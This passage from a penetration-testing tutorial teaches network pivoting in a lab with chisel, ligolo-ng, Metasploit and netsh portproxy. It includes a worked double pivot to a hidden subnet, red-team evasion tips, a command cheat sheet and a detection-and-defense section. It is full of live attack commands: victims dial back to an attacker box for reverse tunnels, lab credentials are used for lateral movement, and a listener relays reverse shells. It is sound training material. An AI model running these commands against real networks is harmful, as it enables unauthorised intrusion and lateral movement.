$ chisel server --reverse --port 8080 --socks5
2026/01/01 00:00:00 server: Reverse tunnelling enabled
2026/01/01 00:00:00 server: Listening on http://0.0.0.0:8080
```

- `server` — run as the chisel server.
- `--reverse` — allow clients to request *reverse* tunnels (without this, reverse requests are refused — a common first-time error).
- `--port 8080` — the port the victim connects out to (choose one egress allows — 443/80/8080).
- `--socks5` — advertise SOCKS5 support for the reverse proxy.

**On the victim (WebSrv), dial back and open a reverse SOCKS:**

```bash
victim$ ./chisel client 172.16.5.10:8080 R:1080:socks
2026/01/01 00:00:01 client: Connecting to ws://172.16.5.10:8080
2026/01/01 00:00:01 client: tun: proxy#R:1080=>socks: active
2026/01/01 00:00:01 client: Connected (Latency 0.4ms)
```

Decoding `R:1080:socks`: **`R:`** = *remote/reverse* (bind on the server side = Kali). **`1080`** = the port to bind on Kali. **`socks`** = make it a SOCKS proxy (rather than forwarding to a fixed host:port). Result: `127.0.0.1:1080` on Kali is now a SOCKS5 proxy into the victim's networks — despite the victim never accepting an inbound connection.

Point proxychains at it (same as Part 4):

```bash
# /etc/proxychains4.conf -> [ProxyList] -> socks5 127.0.0.1 1080
$ proxychains4 netexec smb 10.10.20.5 -u administrator -p 'Passw0rd!'
$ proxychains4 nmap -sT -Pn -p445,1433,3389 10.10.20.5 10.10.20.10
```

### chisel port-forward mode (single service, reverse)

If you only need one internal service exposed on Kali (say the DB's 1433), use a reverse *forward* instead of SOCKS:

```bash
# Victim: expose 10.10.20.10:1433 on Kali's localhost:1433
victim$ ./chisel client 172.16.5.10:8080 R:1433:10.10.20.10:1433
# Kali: now talk to the DB directly
$ impacket-mssqlclient dbadmin:'DbP@ss'@127.0.0.1 -port 1433
```

`R:1433:10.10.20.10:1433` = reverse-bind Kali:1433 → forward to `10.10.20.10:1433` via the victim. No proxychains needed for a single forward.

### Forward mode and auth/TLS hardening

Forward (non-reverse) mode is used when *you* can reach the victim and it runs the server:

```bash
victim$ ./chisel server --port 8080 --socks5      # victim is the server
kali$   chisel client 172.16.5.20:8080 socks      # Kali binds local :1080 SOCKS
```

Harden the tunnel so a blue team (or another actor) can't just connect to your open chisel server:

```bash
# Shared secret both ends must present:
kali$   chisel server --reverse --socks5 --auth 's3cret:pivotpass' --port 443
victim$ ./chisel client --auth 's3cret:pivotpass' 172.16.5.10:443 R:1080:socks

# TLS + fingerprint pinning (encrypt the outer layer, resist MITM/inspection):
kali$   chisel server --reverse --tls-key key.pem --tls-cert cert.pem --port 443 --socks5
victim$ ./chisel client --tls-skip-verify https://172.16.5.10:443 R:1080:socks   # lab only
```

Useful flags summary:

| Flag | Side | Purpose |
|------|------|---------|
| `--reverse` | server | Permit reverse (`R:`) tunnels |
| `--socks5` | server | Enable SOCKS5 endpoint |
| `--auth user:pass` | both | Shared credential to use the tunnel |
| `--port` | server | Listen port (pick an egress-allowed one) |
| `--keepalive 25s` | client | Heartbeat so NAT/idle-timeouts don't kill the tunnel |
| `--max-retry-count -1` | client | Retry forever (survive flaky links) |
| `--tls-*` | server | Wrap the WebSocket in TLS |
| `--fingerprint` | client | Pin the server's key (anti-MITM) |



**Blue team detection angle:** chisel over plain HTTP has a recognisable WebSocket upgrade and traffic pattern; long-lived outbound WebSocket to an odd IP on 8080, or TLS with a self-signed cert to a non-CDN address, is suspicious. On the host, an unknown static binary making persistent outbound connections is the tell. We consolidate detection in Part 12. **Red team opsec:** run the server behind a legitimate-looking redirector on 443 with real TLS, use `--auth`, and match the victim's normal egress (HTTPS to a categorised domain) to blend in.

## Part 7: ligolo-ng — A Whole Subnet, Routable, With Native Tools

`chisel` + proxychains works, but you still live with SOCKS limitations: `-sT` only, no ICMP, per-connection overhead, static Go binaries that ignore `LD_PRELOAD`. **ligolo-ng** solves all of that. It presents a **userland TUN interface** on your attacker box; you add a *route* for the internal subnet pointing at that interface, and then **every native tool works** — real `nmap -sS`, `ping`, UDP, full stacks — with no proxychains at all. It has become the default modern pivoting tool for exactly this reason.

### The tool: ligolo-ng from scratch

ligolo-ng (by Nicolas Chatelain) has two components:

- **proxy** (runs on your attacker box) — presents an interactive console and creates the TUN interface.
- **agent** (runs on the victim) — a single static Go binary (Linux/Windows/macOS) that dials back to the proxy.

The agent connects *out* to the proxy (reverse by design — great for NAT'd victims). Once connected, you "start" a tunnel and add a host route; the proxy injects the victim's-side traffic onto the TUN device, so your kernel routes internal packets through it natively. No SOCKS, no proxychains, no `-sT`.

Install/obtain both binaries (from the ligolo-ng releases page): `proxy` for Kali, `agent` for the victim's OS/arch.

### Setup: create the tun interface (one-time)

On Kali, create and bring up the `ligolo` TUN interface the proxy will use:

```bash
$ sudo ip tuntap add user $(whoami) mode tun ligolo
$ sudo ip link set ligolo up
```

Start the proxy (self-signed cert for the lab; use `-certfile/-keyfile` for real TLS):

```bash
$ ./proxy -selfcert -laddr 0.0.0.0:11601
INFO[0000] Loading configuration file ligolo-ng.yaml
WARN[0000] Using self-signed certificates
INFO[0000] Listening on 0.0.0.0:11601
    __    _             __
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 ...
ligolo-ng »
```

### Connect the agent from the victim

On the victim, run the agent pointing at the Kali proxy (`-ignore-cert` in the lab because we used `-selfcert`):

```bash
victim$ ./agent -connect 172.16.5.10:11601 -ignore-cert
time="..." level=info msg="Connection established" addr="172.16.5.10:11601"
```

Back in the proxy console, the session appears. Select it and inspect the victim's interfaces:

```
ligolo-ng » session
? Specify a session : 1 - #1 - pivot@websrv - 172.16.5.20:51234
[Agent : pivot@websrv] » ifconfig
┌─ Interface 1 ────────────────┐
│ Name  : eth1                 │
│ IPv4  : 10.10.20.20/24       │
└──────────────────────────────┘
```

### Route the internal subnet through the tunnel

Now the magic. In the console, `start` the tunnel; then, **on Kali**, add a route for the internal subnet via the `ligolo` interface:

```
[Agent : pivot@websrv] » start
INFO[..] Starting tunnel to pivot@websrv
```

```bash
# On Kali (separate terminal): route 10.10.20.0/24 into the ligolo TUN
$ sudo ip route add 10.10.20.0/24 dev ligolo
$ ip route get 10.10.20.5
10.10.20.5 dev ligolo src ... 
```

That's the whole pivot. Now use **native** tools with **no proxychains and no restrictions**:

```bash
$ nmap -sS -Pn -p- --min-rate 2000 10.10.20.5      # real SYN scan works!
$ ping -c1 10.10.20.5                               # ICMP works!
$ netexec smb 10.10.20.0/24                          # sweep the subnet natively
$ impacket-mssqlclient dbadmin:'DbP@ss'@10.10.20.10  # direct, real IP
$ evil-winrm -i 10.10.20.5 -u administrator -p 'Passw0rd!'
```

Because ligolo routes at layer 3, the internal hosts see connections coming *from the agent's IP* (`10.10.20.20`), and your Kali tools behave exactly as if plugged into the internal switch.

### Listeners: pulling files/shells back (reverse the other way)

You often need the internal host to reach *you* (e.g. deliver a payload, catch a reverse shell from a deeper host). ligolo's `listener_add` binds a port on the *agent* and forwards it back to your Kali:

```
[Agent : pivot@websrv] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444 --tcp
# Now anything hitting websrv:1234 (from the internal net) is delivered to Kali:4444
```

So a reverse shell from the DC configured to connect to `10.10.20.20:1234` lands in your `nc -lvnp 4444` on Kali. This solves the "how does a deep host call back to me when it can't route to my DMZ IP" problem.

### ligolo double pivot (agent-to-agent) — preview

ligolo shines at chaining: compromise the DC through the WebSrv pivot, run a *second* agent on the DC, and route the DC-only subnet (`10.10.30.0/24`) through it. We do the full double pivot in Part 9. For now, the key advantages table:

| Property | proxychains+SOCKS (chisel) | ligolo-ng (TUN) |
|----------|----------------------------|-----------------|
| Native `nmap -sS` | No (connect scan only) | **Yes** |
| ICMP / ping | No | **Yes** |
| UDP | Limited (SOCKS5) | **Yes** |
| Needs proxychains wrapper | Yes | **No** |
| Static Go tools work | Often not (LD_PRELOAD) | **Yes** |
| Whole-subnet routing | Manual per-conn | **Route once** |
| Setup complexity | Low | Medium (TUN + route) |
| Attacker root needed | No | Yes (create TUN/route) |



**Why ligolo is the modern default:** it removes every proxychains headache, gives you native scanning fidelity, and its agent-to-agent routing makes multi-hop pivots almost trivial. **Detection:** an outbound TLS connection to an unusual host on 11601 (or your chosen port) plus a new agent binary on disk; the traffic is TLS-encrypted so payloads are opaque, but the *behaviour* (one internal host proxying connections to many others) is anomalous. Covered in Part 12.

## Part 8: Metasploit Pivoting — autoroute, socks_proxy, portfwd

If your foothold is a Meterpreter session, Metasploit has pivoting built in and it's worth knowing, both because it's fast and because you'll see it constantly in OSCP-style material.

### autoroute — route Metasploit modules through a session

`autoroute` adds an internal subnet to Metasploit's *internal* routing table, so any MSF module (scanners, exploits) reaches it through the session — no external tool needed:

```
meterpreter > run autoroute -s 10.10.20.0/24
[*] Adding route to 10.10.20.0/24...

# or the post module:
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
msf6 post(multi/manage/autoroute) > set SUBNET 10.10.20.0
msf6 post(multi/manage/autoroute) > run

# Verify:
meterpreter > run autoroute -p
   Subnet             Netmask            Gateway
   10.10.20.0         255.255.255.0      Session 1

# Now MSF modules reach the internal net:
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 10.10.20.5
msf6 > set PORTS 445,3389,5985
msf6 > run    # scans THROUGH session 1
```

### socks_proxy — expose the MSF routes to external tools

autoroute only helps *Metasploit* modules. To let `proxychains`/`nmap`/`netexec` use those routes, start a SOCKS server that rides MSF's routing table:

```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 1080
msf6 auxiliary(server/socks_proxy) > set VERSION 5
msf6 auxiliary(server/socks_proxy) > run -j
[*] Starting the SOCKS proxy server

# Kali proxychains -> socks5 127.0.0.1 1080, then:
$ proxychains4 netexec smb 10.10.20.5 -u administrator -p 'Passw0rd!'
```

So the recipe is **autoroute (add subnet) + socks_proxy (expose it) + proxychains (use it)** — three steps that mirror exactly the SSH `-D`/chisel patterns, just sourced from a Meterpreter session.

### portfwd — single port forward from Meterpreter

For one service, `portfwd` inside Meterpreter is the `ssh -L` equivalent:

```
meterpreter > portfwd add -l 3389 -p 3389 -r 10.10.20.5
# Kali localhost:3389 now == DC:3389
meterpreter > portfwd list
```

| Task | Metasploit way | Equivalent elsewhere |
|------|----------------|----------------------|
| Route a subnet internally | `run autoroute -s ...` | (sshuttle/ligolo route) |
| Expose routes to outside tools | `auxiliary/server/socks_proxy` | `ssh -D`, `chisel socks` |
| Forward one port | `portfwd add -l .. -p .. -r ..` | `ssh -L`, `chisel R:` |

**Note:** Metasploit's SOCKS proxy has the same SOCKS limitations (connect-scan only, no ICMP). For heavy native scanning, still prefer ligolo. But autoroute is unbeatably quick when you already have Meterpreter.

## Part 9: The Full Worked Lab — Double Pivot to a Hidden Subnet

Now we chain everything into one realistic operation: **Kali → WebSrv → DC → hidden host (`10.10.30.30`)**, using ligolo-ng for its native-tool convenience. This is the canonical HTB Pro Lab / OSCP-exam scenario. Follow it end to end.

### Stage 0 — Confirm the starting position

```bash
kali$ ip route get 10.10.20.5
RTNETLINK answers: Network is unreachable        # can't reach internal
kali$ ssh pivot@172.16.5.20                       # but we have a foothold on WebSrv
```

### Stage 1 — First pivot with ligolo (Kali ↔ WebSrv)

```bash
# Kali: prepare TUN + proxy
kali$ sudo ip tuntap add user $(whoami) mode tun ligolo && sudo ip link set ligolo up
kali$ ./proxy -selfcert -laddr 0.0.0.0:11601

# Deliver the agent to WebSrv over the existing foothold, then run it:
websrv$ ./agent -connect 172.16.5.10:11601 -ignore-cert
```

In the proxy console:

```
ligolo-ng » session            # select session 1 (WebSrv)
[Agent : pivot@websrv] » start
```

```bash
# Kali: route the internal subnet through ligolo
kali$ sudo ip route add 10.10.20.0/24 dev ligolo
kali$ nmap -sS -Pn -p445,1433,3389,5985 10.10.20.5 10.10.20.10
Nmap scan report for 10.10.20.5
445/tcp open microsoft-ds
3389/tcp open ms-wbt-server
5985/tcp open wsman
Nmap scan report for 10.10.20.10
1433/tcp open ms-sql-s
```

Native SYN scan works — that's the ligolo payoff. Now compromise the DC. Say we relayed/cracked `administrator:Passw0rd!` earlier:

```bash
kali$ netexec smb 10.10.20.5 -u administrator -p 'Passw0rd!'
SMB 10.10.20.5 445 DC [+] corp.local\administrator:Passw0rd! (Pwn3d!)
kali$ evil-winrm -i 10.10.20.5 -u administrator -p 'Passw0rd!'
*Evil-WinRM* PS C:\> whoami
corp\administrator
```

### Stage 2 — Discover the deeper network from the DC

The DC has a second leg the WebSrv can't see. From the WinRM shell:

```powershell
*Evil-WinRM* PS C:\> ipconfig
   Ethernet adapter Ethernet0:  IPv4 Address. . . : 10.10.20.5
   Ethernet adapter Ethernet1:  IPv4 Address. . . : 10.10.30.5
*Evil-WinRM* PS C:\> arp -a | findstr 10.10.30
   10.10.30.30    aa-bb-cc-dd-ee-ff   dynamic
```

There's a `10.10.30.0/24` reachable only from the DC. `10.10.30.30` is our target. Kali can't reach it, and *neither can WebSrv* — only the DC can.

### Stage 3 — Second pivot: run a ligolo agent on the DC

Upload the Windows ligolo agent to the DC (via WinRM `upload`, or `certutil`/SMB), then run it dialling back to Kali's proxy:

```powershell
*Evil-WinRM* PS C:\> upload agent.exe C:\Windows\Temp\agent.exe
```

But wait — the DC dials `172.16.5.10`, which the DC *can't route to* (it only knows `10.10.20.0/24` and `10.10.30.0/24`). This is the classic double-pivot chicken-and-egg. The clean solution: **point the second agent at the first agent using ligolo's listener.** On the WebSrv agent, add a listener that relays the DC's connection back to Kali's proxy:

```
[Agent : pivot@websrv] » listener_add --addr 0.0.0.0:11601 --to 172.16.5.10:11601 --tcp
```

Now the DC connects to `10.10.20.20:11601` (WebSrv, which it *can* reach), and WebSrv relays it to Kali's proxy:

```powershell
*Evil-WinRM* PS C:\> C:\Windows\Temp\agent.exe -connect 10.10.20.20:11601 -ignore-cert
```

The DC's agent now shows up as **session 2** in the proxy console.

### Stage 4 — Route the hidden subnet through the DC agent

```
ligolo-ng » session            # select session 2 (the DC)
[Agent : corp\administrator@dc] » start
```

```bash
# Kali: route 10.10.30.0/24 into ligolo too (it now maps to whichever session is 'started')
kali$ sudo ip route add 10.10.30.0/24 dev ligolo
kali$ nmap -sS -Pn -p- --min-rate 1500 10.10.30.30
Nmap scan report for 10.10.30.30
22/tcp  open  ssh
80/tcp  open  http
kali$ curl http://10.10.30.30/                 # reaching a host TWO pivots deep, natively
<html><title>Internal App</title>...
```

We just reached `10.10.30.30` — a host two hops removed from Kali — with a *native* curl and a *native* SYN scan, no proxychains anywhere.

```mermaid
flowchart LR
    K[Kali 172.16.5.10<br/>ligolo proxy + routes] -->|TUN| A1[Agent1 WebSrv 10.10.20.20]
    A1 -->|listener relay :11601| A2[Agent2 DC 10.10.20.5 / 10.10.30.5]
    K -.route 10.10.20.0/24.-> A1
    K -.route 10.10.30.0/24.-> A2
    A2 --> T[Hidden host 10.10.30.30]
```

### The same double pivot with chisel + proxychains (for when ligolo isn't an option)

If you must use chisel (no TUN/root on Kali, or you prefer SOCKS), you chain two SOCKS proxies and let proxychains route through both:

```bash
# Pivot 1: reverse SOCKS on Kali:1080 via WebSrv (Part 6)
kali$ chisel server --reverse --socks5 --port 8080
websrv$ ./chisel client 172.16.5.10:8080 R:1080:socks

# Pivot 2: run a second chisel server on WebSrv, and a client on the DC pointing at it,
# chained back to Kali so a second reverse SOCKS binds on Kali:1081 sourced from the DC.

# /etc/proxychains4.conf (strict_chain, order matters — first hop first):
# [ProxyList]
# socks5 127.0.0.1 1080     # into 10.10.20.0/24 (via WebSrv)
# socks5 127.0.0.1 1081     # into 10.10.30.0/24 (via DC)

kali$ proxychains4 nmap -sT -Pn -p22,80 10.10.30.30
```

The ligolo route-based approach is dramatically cleaner for double pivots — which is exactly why it's the modern default. Keep the chisel/proxychains chain in your back pocket for constrained environments.

## Part 10: Windows-Native Pivoting — netsh portproxy and Living Off the Land

Sometimes you can't (or shouldn't) drop a tunneling binary. Windows ships with a built-in TCP forwarder: **`netsh interface portproxy`**. It's noisy and persistent, but it needs no upload and survives reboots — useful when you want a quick forward on a Windows foothold using only signed OS tooling.

### netsh portproxy from scratch

`netsh interface portproxy add v4tov4` creates a listener that forwards to another host:port. Run it from an *administrative* prompt on the Windows foothold:

```powershell
# On the DC (Windows foothold): forward DC:2222 -> hidden host 10.10.30.30:22
PS C:\> netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=2222 connectaddress=10.10.30.30 connectport=22

# List existing rules:
PS C:\> netsh interface portproxy show all
Listen on ipv4:             Connect to ipv4:
Address     Port            Address         Port
0.0.0.0     2222            10.10.30.30     22
```

Now, from a network that can reach the DC (e.g. through your first ligolo pivot to `10.10.20.5`), hit `10.10.20.5:2222` to reach `10.10.30.30:22`:

```bash
kali$ ssh -p 2222 user@10.10.20.5     # actually lands on 10.10.30.30:22
```

**Open the Windows firewall for the listener** (portproxy respects the host firewall):

```powershell
PS C:\> netsh advfirewall firewall add rule name="pp2222" dir=in action=allow protocol=TCP localport=2222
```

**Clean up (do this — portproxy rules persist across reboots and are a giveaway):**

```powershell
PS C:\> netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=2222
PS C:\> netsh advfirewall firewall delete rule name="pp2222"
```

| netsh portproxy field | Meaning |
|-----------------------|---------|
| `listenaddress`/`listenport` | Where the forwarder listens (on the Windows host) |
| `connectaddress`/`connectport` | Where it forwards to (reachable from the Windows host) |
| `v4tov4` | IPv4→IPv4 (also `v4tov6`, `v6tov4`, `v6tov6`) |

**Blue team gold:** `netsh interface portproxy show all` on a suspected host instantly reveals attacker forwards, and the config lives in the registry under `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy\v4tov4\tcp` — a great hunt artifact and a persistence indicator. **Red team caution:** because it's persistent and registry-backed, portproxy is *loud*. Use it for a quick, short-lived forward and always remove it; prefer ligolo/chisel for stealthy, in-memory-ish tunnels.

Other Windows LOLBIN-ish options worth knowing: `ssh.exe` ships in modern Windows (OpenSSH client) so `ssh -L/-R/-D` works natively; and PowerShell can build ad-hoc TCP relays, though those are more fragile than a purpose-built tool.

## Part 11: Choosing the Right Tool — A Decision Model

You now have the whole toolbox. The skill is picking fast. Use this decision tree:



Rules of thumb distilled:

- **Default to ligolo-ng** for internal engagements where you control the attacker box — native tools, ICMP, clean double pivots.
- **chisel** when egress is web-only or the victim can only dial out and you're happy with SOCKS + proxychains.
- **ssh -D / -J** when you already have SSH creds and want zero extra tooling.
- **sshuttle** for a fast VPN-like route in CTF/OSCP contexts (SSH + Python on target).
- **Metasploit autoroute+socks** when your session is already Meterpreter.
- **netsh portproxy** for a throwaway Windows forward with OS-native tooling — remember it persists.

And the universal gotchas, one more time, as a table you should tape to your monitor:

| Gotcha | Rule |
|--------|------|
| SOCKS + nmap | Always `-sT -Pn -n`; never `-sS` |
| proxychains DNS fails | Enable `proxy_dns` or use IPs |
| Slow tunnel false-closed ports | Raise `tcp_read_time_out`; lower `-T` |
| Double pivot deep host can't reach you | Use a listener/relay on the first pivot |
| Reverse shell from deep host | ligolo `listener_add` or chisel `R:` forward back |
| Tunnel dies on idle | `--keepalive`, SSH `ServerAliveInterval` |
| netsh persists across reboot | Delete the rule + firewall rule when done |

## Part 12: Detection & Defense Angle

Everything above is offense. A mature blue team detects and constrains pivoting at three layers: **network egress**, **traffic behaviour**, and **host artifacts**. If you defend a network, this is your checklist; if you attack one, this is what you're trying not to trip.

### Network segmentation and egress filtering — the root defense

Pivoting *exists* because internal hosts can reach other internal networks. Tighten that:

- **Micro-segmentation / east-west controls.** A DMZ web server has no business initiating SMB/LDAP/RDP to the internal VLAN. Enforce with host firewalls, VLAN ACLs, or a software-defined segmentation product so the WebSrv's `eth1` can only reach the exact services it needs. This kills most pivots at the source — the foothold simply can't reach the DC.
- **Strict egress filtering.** Reverse tunnels (chisel/ligolo) depend on outbound connections to the attacker. Default-deny egress and force outbound through an authenticated proxy that only allows categorised destinations. A `www-data` process opening an outbound WebSocket to a raw IP on 8080 should be *impossible*, not merely logged.
- **No direct outbound from servers.** Servers rarely need arbitrary internet egress. Blocking it defeats reverse-SOCKS-over-HTTP tunnels that assume they can dial home.

### Traffic-behaviour detection



- **Fan-out / scanning from a server.** A single host suddenly touching dozens of internal IPs on 445/1433/3389 is the signature of a pivoted `nmap`/`netexec` sweep. NetFlow/Zeek connection-count anomalies catch it.
- **Long-lived, high-uptime outbound tunnels.** Zeek `conn.log` entries with very long durations to unusual ports, or TLS to self-signed certs on non-CDN IPs, flag chisel/ligolo. JA3/JA3S fingerprinting can identify ligolo's Go TLS stack.
- **Protocol-on-wrong-port and WebSocket abuse.** chisel's WebSocket-inside-HTTP on 8080, or SSH on a nonstandard port from a server, are detectable with protocol-analysis IDS (Suricata/Zeek).
- **SOCKS itself is quiet on the wire** (it's just TCP to the pivot), so behaviour and host artifacts matter more than payload signatures for encrypted tunnels.

### Host-based artifacts (great for IR and threat hunting)

- **Unknown static binaries** (`chisel`, `agent`, `ligolo`) in `/tmp`, `C:\Windows\Temp`, or user-writable dirs — hash-hunt with your EDR. **IR use case:** on a suspected pivot host, list recently-created executables and outbound-connected processes (`lsof -i`, `ss -tnp`, `netstat -anob` on Windows).
- **`netsh portproxy` rules** — registry key `HKLM\SYSTEM\CurrentControlSet\Services\PortProxy` and `netsh interface portproxy show all`. A cheap, high-signal hunt on Windows.
- **New TUN interfaces / routes** on a *server* (`ip tuntap`, unexpected `ip route` entries) — servers don't spontaneously grow VPN interfaces.
- **sshuttle artifacts** — a remote Python process spawned by an SSH session, plus NAT rules on the *attacker* side (less visible to the victim, but the remote Python and long SSH session are logged by `sshd`/auditd).
- **Process ancestry** — a tunneling binary parented by a web server process (`www-data` → `chisel`) is a screaming anomaly for EDR behavioural rules.

### Detection summary

| Layer | Signal | Tooling |
|-------|--------|---------|
| Network policy | Server initiating east-west or egress it shouldn't | Segmentation, egress proxy, firewall logs |
| Traffic behaviour | Fan-out scans, long-lived odd tunnels, JA3 | Zeek, NetFlow, Suricata, NDR |
| Host artifact | Unknown binaries, TUN/routes, portproxy, process ancestry | EDR, auditd, Sysmon, registry hunts |

**The single most effective control is segmentation + egress filtering.** Detection catches what prevention missed; a network where the DMZ host physically cannot reach the DC or dial out arbitrarily defeats the entire chapter's offense before it starts.

## Part 13: Common Pitfalls

A concentrated list of the mistakes that eat hours — learn them here instead of at 2 a.m. in an exam:

- **Using `nmap -sS` through a SOCKS proxy.** SOCKS can't carry half-open SYNs. You *must* use `-sT`. Symptom: everything shows filtered/closed. This is the number-one pivot bug.
- **Forgetting `-Pn`.** ICMP host-discovery can't traverse a proxy, so nmap decides every host is down and scans nothing. Always `-Pn` through tunnels.
- **DNS leaking / not resolving.** Without `proxy_dns` (proxychains) or `--dns` (sshuttle), internal hostnames resolve on Kali (and fail, and leak). Prefer IPs; enable remote DNS when you need names.
- **`--reverse` missing on the chisel server.** Reverse (`R:`) tunnels are refused unless the server was started with `--reverse`. Symptom: client connects then the tunnel errors.
- **Timeouts too tight.** Tunnels add latency; default proxychains timeouts mislabel slow-open ports as closed. Raise `tcp_read_time_out`/`tcp_connect_time_out`.
- **Double-pivot deep host can't route to your DMZ IP.** The second agent must dial the *first pivot's* internal IP (via a relay/listener), not your Kali address. This is the classic double-pivot wall.
- **Wrong binary arch/OS.** A Linux chisel/ligolo agent won't run on the Windows DC. Match `linux_amd64` vs `windows_amd64` (and ARM where relevant).
- **Static Go tools ignore proxychains.** `LD_PRELOAD` can't hook statically-linked binaries; they'll connect *directly* (and fail or leak). Use ligolo/sshuttle (route-level) for those tools.
- **Leaving artifacts behind.** `netsh portproxy` rules, dropped binaries, TUN interfaces, and open SOCKS servers persist. Clean up — both for opsec and because an exposed open SOCKS/chisel server is a real risk to the client.
- **Overloading one tunnel.** Blasting `nmap -p- -T5` through a single SOCKS conduit drops connections and misreports ports. Narrow the port list, lower timing, or switch to ligolo's route-level path.
- **AllowTcpForwarding no.** Hardened `sshd` blocks `-L/-D`. If SSH forwards "administratively prohibited," pivot with chisel/ligolo instead.

## Final Revision / Summary

- **A pivot exists because your attacker box has no route to the target network, but your foothold does.** Every tool here is a different way to borrow the foothold's reachability.
- **Three mechanisms:** *port forwarding* (one dest, `ssh -L/-R`, `netsh portproxy`, `chisel R:host:port`), *SOCKS proxying* (whole far side, app-level, `ssh -D`/`chisel socks`/msf `socks_proxy` + proxychains), and *layer-3 TUN routing* (whole subnet, native tools, `sshuttle`/`ligolo-ng`).
- **Two directions:** *forward/bind* (you connect into the victim) vs *reverse* (the victim dials home) — reverse dominates real engagements because egress beats ingress.
- **SSH** gives you `-L` (expose one internal service), `-R` (victim dials back), `-D` (SOCKS for the whole far side), and `-J` (clean multi-hop). Free, ubiquitous, but breaks under `AllowTcpForwarding no`.
- **proxychains(-ng)** hooks `connect()` via `LD_PRELOAD` to push any dynamically-linked tool through a SOCKS proxy — remember `strict_chain`, `proxy_dns`, generous timeouts, and always `nmap -sT -Pn -n`.
- **sshuttle** = poor-man's VPN: SSH + Python on the target, native TCP tools, no proxychains, `--dns` for names.
- **chisel** = single Go binary, reverse SOCKS over HTTP/WebSocket — the pick when egress is web-only or the victim can only dial out; harden with `--auth`/TLS.
- **ligolo-ng** = userland TUN + a route, so **native `nmap -sS`, ping, UDP, everything** works with no proxychains; the modern default and superb for double pivots via `listener_add`.
- **Metasploit** = `autoroute` (internal routes) + `socks_proxy` (expose them) + `portfwd` (single port) when you're already in Meterpreter.
- **netsh portproxy** = OS-native Windows forward, no upload — but persistent and registry-backed, so clean it up.
- **Defense** = segmentation + egress filtering first (kills pivots at the source), then behavioural detection (fan-out, long-lived odd tunnels, JA3), then host artifacts (unknown binaries, TUN/routes, portproxy rules, process ancestry).

Mental model to carry forward: *identify the reachability gap → pick the mechanism (forward/SOCKS/TUN) → pick the direction (forward/reverse) → pick the tool that fits your constraints (SSH? egress? need native scans? Windows?) → route, enumerate, repeat for the next hop.*

## Cheat Sheet / Quick Reference

**SSH forwarding**

```bash
ssh -N -L 4455:10.10.20.5:445 pivot@172.16.5.20      # local: expose DC:445 on Kali:4455
ssh -N -R 3389:10.10.20.5:3389 kaliuser@172.16.5.10  # remote: victim dials back
ssh -N -D 1080 pivot@172.16.5.20                     # dynamic SOCKS on Kali:1080
ssh -J pivot@172.16.5.20 dbadmin@10.10.20.10         # ProxyJump one command
```

**proxychains (/etc/proxychains4.conf)**

```conf
strict_chain
proxy_dns
tcp_read_time_out 15000
tcp_connect_time_out 8000
[ProxyList]
socks5 127.0.0.1 1080
```

```bash
proxychains4 nmap -sT -Pn -n -p445,3389 10.10.20.5   # ALWAYS -sT -Pn -n
proxychains4 netexec smb 10.10.20.5 -u admin -p pass
proxychains4 evil-winrm -i 10.10.20.5 -u admin -p pass
```

**sshuttle**

```bash
sudo sshuttle --dns -r pivot@172.16.5.20 10.10.20.0/24 10.10.30.0/24
sudo sshuttle -r pivot@172.16.5.20 --ssh-cmd 'ssh -i key' -x 10.10.20.20 10.10.20.0/24
```

**chisel (reverse SOCKS)**

```bash
# Kali (server):
chisel server --reverse --socks5 --auth 'u:p' --port 8080
# Victim (client):
./chisel client --auth 'u:p' 172.16.5.10:8080 R:1080:socks
# Single reverse forward:
./chisel client 172.16.5.10:8080 R:1433:10.10.20.10:1433
```

**ligolo-ng**

```bash
# Kali one-time:
sudo ip tuntap add user $(whoami) mode tun ligolo && sudo ip link set ligolo up
./proxy -selfcert -laddr 0.0.0.0:11601
# Victim:
./agent -connect 172.16.5.10:11601 -ignore-cert
# Console: session -> start ; Kali:
sudo ip route add 10.10.20.0/24 dev ligolo
# Reverse a port back to Kali:
# (console) listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4444 --tcp
# Double pivot relay on first agent:
# (console) listener_add --addr 0.0.0.0:11601 --to 172.16.5.10:11601 --tcp
```

**Metasploit**

```
run autoroute -s 10.10.20.0/24
use auxiliary/server/socks_proxy ; set VERSION 5 ; set SRVPORT 1080 ; run -j
portfwd add -l 3389 -p 3389 -r 10.10.20.5
```

**netsh portproxy (Windows, admin)**

```powershell
netsh interface portproxy add v4tov4 listenport=2222 connectaddress=10.10.30.30 connectport=22
netsh advfirewall firewall add rule name="pp2222" dir=in action=allow protocol=TCP localport=2222
netsh interface portproxy show all
netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=2222   # cleanup!
```

**nmap-through-tunnel rules:** `-sT` (connect scan) · `-Pn` (no ping) · `-n` (no DNS) · narrow port list · higher timeouts · lower `-T`.

## Practice Labs & Resources

Train this skill on labs that are actually *built* around multi-hop pivoting:

- **HackTheBox Pro Labs — Dante, Offshore, RastaLabs, Cybernetics.** These are multi-network environments where you cannot finish without chaining pivots (ligolo/chisel double and triple pivots). Dante is the best starting point for pivoting fundamentals.
- **TryHackMe — "Wreath"** (a purpose-built pivoting/network room using chisel), **"Pivoting"** module, and **"Holo"** (multi-host AD network requiring tunnels). Wreath is the single best guided intro to chisel pivoting.
- **HackTheBox machines with a pivot leg** — many retired boxes (in the "Intro to Networks/Pivoting" tracks) have a second interface; practise ligolo and `ssh -D` against them.
- **OSCP / PEN-200 lab and exam** — the exam's internal network is explicitly a pivot: master `ssh -D`, chisel, and ligolo against the PWK lab before sitting it. Offensive Security's "port redirection and tunneling" module maps directly to this chapter.
- **Proving Grounds (Practice/Play)** — several boxes chain to internal-only services; good for drilling chisel reverse SOCKS.
- **Build your own** with the three-VM topology from Part 2 (a dual-homed Ubuntu + a Windows DC + a third host reachable only from the DC). Reproducing the double pivot yourself teaches more than any writeup.
- **Reference reading:** the official chisel and ligolo-ng GitHub READMEs (authoritative flag references), the proxychains-ng README (config semantics), and Ippsec videos that demonstrate pivoting on HTB boxes end to end.

